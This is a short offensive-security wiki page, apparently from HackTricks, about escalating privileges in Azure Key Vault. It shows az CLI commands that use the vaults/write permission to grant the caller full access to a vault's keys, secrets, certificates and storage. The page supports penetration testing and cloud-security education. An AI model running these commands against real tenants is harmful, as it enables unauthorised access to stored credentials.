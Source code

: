 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

For more information about this service check:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

An attacker with this permission will be able to modify the policy of a key vault (the key vault must be using access policies instead of RBAC).

```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
  --name <vault-name> \
  --object-id <your-object-id> \
  --key-permissions all \
  --secret-permissions all \
  --certificate-permissions all \
  --storage-permissions all
```

{{#include ../../../banners/hacktricks-training.md}}



